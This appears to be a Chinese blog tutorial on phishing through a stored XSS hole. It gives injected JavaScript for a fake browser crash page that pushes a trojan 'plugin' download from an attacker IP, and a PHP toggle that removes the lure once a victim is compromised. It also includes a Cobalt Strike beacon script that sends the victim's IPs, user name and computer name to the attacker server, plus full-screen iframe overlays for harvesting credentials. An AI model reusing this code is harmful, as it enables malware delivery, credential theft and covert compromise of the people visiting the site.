

一、简述
XSS我们不陌生，利用XSS可以做到许多的事，比如盗取cookie、钓鱼、获得内网地址、DDOS等等。这里简单学习一下利用XSS钓鱼。
二、原理
一般需要一个存储型XSS。利用存储型XSS可以实现的目标可以有两种：
- 1.直接诱导目标下载木马，达到直接上线的目的。这种情况最常见于Flash钓鱼，并且以此衍生各种版本，比如google崩溃页面、下载某插件之后才能访问等等。
- 2.诱导目标输入账号密码，达到窃取信息的目的。
这两种攻击方式需要考虑到下载之后如何自动判断上线，并且撤销钓鱼页面（也就是收杆），防止被发现攻击。
而到达目标的线路也是我们需要考虑的，大概分为以下两种
- 直接利用xss跳转到伪造的页面。优点是容易收杆，简单做个判断即可。缺点是容易被发现，毕竟做了跳转。
- 不进行跳转，直接利用xss加载伪造页面，收杆的话使用xss或服务端做判断，这里需要用到cs上线提醒。
三、实践
这里都是通过利用xss加载伪造页面完成的，防止被直接发现。
诱导上线
这里直接使用了Google崩溃页面诱导：
1
2
3
4
5
|
var body = document.body;
var _left = window.innerWidth * 0.3 + 'px';
var _top = window.innerHeight * 0.3 + 'px';
var _height = window.innerHeight;
body.innerHTML=`<div style="background-color: white;height: ${_height}px"><div style='position:absolute;top:${_top};left:${_left};height:300px;width:600px;'><img src='https://files.catbox.moe/kgxxm1.png' style='margin:3px;'><p><h3 >喔唷，崩溃啦!</h3></p ><p style='color:gray'>显示此网页时出了点问题，请在您的页面上启用显示插件，从而可能会有所帮助。</br></p > <a href='http://39.105.*.*/Plugin.zip'> <button style='margin-left:85%;height:30px;line-hight:30px;outline:none;border:none;background-color:rgb(26,115,232);color:white' >立即修复</button></a> </div></div>`
|
1
|
<img style='margin:3px;' src="">
|
图片可以直接去网上找这个小图标然后上传到图床。但是这样会有加载延迟，要么写时间延迟，要么将图片硬编码进去，这里我使用了图片的硬编码。

然后考虑卸载页面的问题，我们有两种思路
- 在服务器做一个判断，既当CS收到上线提醒后向服务器发送请求，改变服务器状态，然后直接在JS中再做一次判断，根据服务器状态决定是否启用钓鱼页面。
- 直接将js文件指向服务器，做一个状态判断，未上线状态则返回js代码。
为了方便，这里是采用第二种方法：
当CS检测到上线的时候，自动发送请求到http://192.168.101.189/xss.php?s=success
改变了服务器状态，之后当受害者再去访问页面的时候既得到正常的页面。
1
2
|
xss:
<script type="text/javascript" src=http://192.168.101.189/xss.php>
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
|
<?php
$status = 0;
$js = file_get_contents('js.js');
if ($_GET['s']=='success'){
file_put_contents('1', $_GET['c']);
}
if (file_exists('1')){
echo 1;
}
else{
header('Content-type: text/javascript');
echo $js;
}
?>
|
CS上线提醒
这里用到的是beacon_initial事件，也就是在会话初始化的时候会运行的代码：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
|
# 循环获取所有beacon
on beacon_initial {
sub http_get {
local('$output');
$url = [new java.net.URL: $1];
$stream = [$url openStream];
$handle = [SleepUtils getIOHandle: $stream, $null];
@content = readAll($handle);
foreach $line (@content) {
$output .= $line . "\r\n";
}
println($output);
}
#获取ip、计算机名、登录账号
$externalIP = replace(beacon_info($1, "external"), " ", "_");
$internalIP = replace(beacon_info($1, "internal"), " ", "_");
$userName = replace(beacon_info($1, "user"), " ", "_");
$computerName = replace(beacon_info($1, "computer"), " ", "_");
$url = 'http://192.168.101.189/xss.php?s=success&c='.$externalIP.$internalIP.$userName.$computerName;
http_get($url);
}
|
CS服务端加载脚本：
1
|
./agscript [host] [port] [user] [pass] </path/to/file.cna>
|
- [host] #服务器的ip地址。
- [port] #cs的端口号，启动cs时有显示。
- [user] #用户名，用来运行这个脚本的用户名，随便即可。
- [pass] #cs的密码，就是启动cs时你设置的密码。
- [path] #cna文件的路径。
如此就完成一个简单的上线既卸载页面的功能。
诱导输入
这里可以使用iframe 标签，src 的替换成欺骗页面。
1
2
|
<iframe src="https://www.runoob.com/php/php-eof-heredoc.html" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
</iframe>
|
或者使用js写入：
1
2
3
4
5
6
7
|
function prepareFrame() {
var ifrm = document.createElement("iframe");
ifrm.setAttribute("src", "https://www.runoob.com/php/php-eof-heredoc.html");
ifrm.setAttribute("style", "position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;");
document.body.appendChild(ifrm);
}
prepareFrame()
|
同样可以放在服务器上，设置判断（参见前文思路）。关于iframe的内容就需要根据实际情况判断。
参考资料：
https://hackergu.com/cobaltstrike-wechat-alert/
http://www.nmd5.com/posts/2020-04-20-22/
https://www.freebuf.com/articles/web/263612.html